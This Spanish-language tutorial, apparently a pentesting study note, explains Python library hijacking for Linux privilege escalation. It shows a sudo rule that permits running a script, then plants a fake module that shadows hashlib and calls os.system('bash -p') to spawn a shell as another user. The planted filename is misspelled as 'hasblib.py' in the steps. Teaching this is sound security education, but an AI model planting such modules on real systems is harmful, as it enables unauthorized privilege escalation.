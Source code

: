 # Python Library Hijacking

Tags: #Linux #PythonHijacking  #Escalada #Root #Privilegios

Cuando hablamos de ‘**Python Library Hijacking**‘, a lo que nos referimos es a una técnica de ataque que aprovecha la forma en la que Python busca y carga bibliotecas para inyectar código malicioso en un script. El ataque se produce cuando un atacante crea o modifica una biblioteca en una ruta accesible por el script de Python, de tal manera que cuando el script la importa, se carga la versión maliciosa en lugar de la legítima.

La forma en que el ataque se lleva a cabo es la siguiente: el atacante busca una biblioteca utilizada por el script y la reemplaza por su propia versión maliciosa. Esta biblioteca puede ser una biblioteca estándar de Python o una biblioteca externa descargada e instalada por el usuario. El atacante coloca su versión maliciosa de la biblioteca en una ruta accesible antes de que la biblioteca legítima sea encontrada.

En general, Python comienza buscando estas bibliotecas en el directorio actual de trabajo y luego en las rutas definidas en la variable sys.path. Si el atacante tiene acceso de escritura en alguna de las rutas definidas en sys.path, puede colocar allí su propia versión maliciosa de la biblioteca y hacer que el script la cargue en lugar de la legítima.

Además, el atacante también puede crear su propia biblioteca en el directorio actual de trabajo, ya que Python comienza la búsqueda en este directorio por defecto. Si durante la carga de estas librerías desde el script legítimo, el atacante logra secuestrarlas, entonces conseguirá una ejecución alternativa del programa.


## Python Hijacking

Para este tipo de escalada, podemos encontrar un archivo de la siguiente manera. 

```bash 
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# (omar) NOPASSWD: /usr/bin/python3 /tmp/example.py
# Podemos ejecutar ese archivo.py python3 como 'omar' y se encuentra en esa ruta 
```

```bash 
❯ sudo -u omar python3 /tmp/example.py           # Forma correcta de ejecutar un archivo cuando es de otro usuario sin proporcionar una passwd
```

Este es el contenido del archivo example.py
```python 
import hashlib

if __name__ == "__main__":
	cadena = "Hola esta es mi cadena"
	print(hashlib.md5(cadena.encode()).hexdigest())
```

Podemos observar el PATH de Python.
```python
❯ python3 -c 'import sys; print(sys.path)'

['', '/usr/lib/python39.zip', '/usr/lib/python3.9', '/usr/lib/python3.9/lib-dynload', '/usr/local/lib/python3.9/dist-packages', '/usr/lib/python3/dist-packages']
```

* El nivel de prioridad va de izquierda a derecha

Al momento de importar la librería 'hashlib', el sistema lo busca en el PATH de Python y después de encontrarla lo importa. 
* El riesgo de este tipo de ataque viene de la primer cadena vacía **' '** del PATH de Python y hace alusión al directorio actual de trabajo.

Por lo que para poder hacer este tipo de ataque, debemos de crear un archivo que se llame como la librería que se esta importando.
```python
❯ nvim hasblib.py
❯ chmod +x hasblib.py

# Dentro del archivo agregamos lo que queremos que haga

import os 
os.system("bash -p")         # Importaremos la libreria OS, para que a nivel de sistema se encargue de lanzar una consola interactiva bash p = privilege
```

 Después volveremos a ejecutar el example.py y al momento de importar la librería 'hashlib' el sistema lo primero que hará  será buscar en nuestra ruta de trabajo, y es ahí donde nosotros tenemos un archivo llamado hashlib el cual lo ejecutara, lo que ocasionara que al momento de la ejecución este importe la librería OS y nos de una bash interactiva con el nombre del usuario que en este caso es Omar.

* Si logramos alterar la **librería original**, podemos modificarlo para que al inicio de el podamos importar la librería OS y nos pueda dar una consola interactiva. 